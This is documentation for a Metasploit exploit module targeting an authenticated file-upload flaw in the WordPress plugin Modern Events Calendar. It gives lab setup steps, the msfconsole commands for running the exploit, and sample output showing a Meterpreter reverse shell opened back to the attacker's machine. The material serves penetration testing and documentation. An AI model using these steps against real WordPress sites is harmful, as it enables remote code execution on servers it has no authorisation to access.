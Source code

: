 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Modern Events Calendar < 5.16.5.
This is due to an incorrect check of the uploaded file extension.
Indeed, by using `text/csv` content-type in a request, it is possible to upload a .php payload as is is not forbidden by the plugin.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/<random_payload_name>.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Modern Events Calendar plugin from [there]
(https://downloads.wordpress.org/plugin/modern-events-calendar-lite.5.16.2.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps


1. Start `msfconsole`
2. `use exploit/multi/http/wp_plugin_modern_events_calendar_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Modern Events Calendar 5.16.2.
See the following output :

```
msf6 > use wp_plugin_modern_events_calendar_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set rhost 192.168.1.12
rhost => 192.168.1.12
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set username admin
username => admin
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set password my_best_password
password => my_best_password
msf6 exploit(wp_plugin_modern_events_calendar_rce) > run

[*] Started reverse TCP handler on 192.168.1.35:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading file 'wkook.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.12
[*] Meterpreter session 10 opened (192.168.1.35:4444 -> 192.168.1.12:34400) at 2021-07-12 14:20:43 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 66dd7f594749
OS          : Linux 66dd7f594749 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
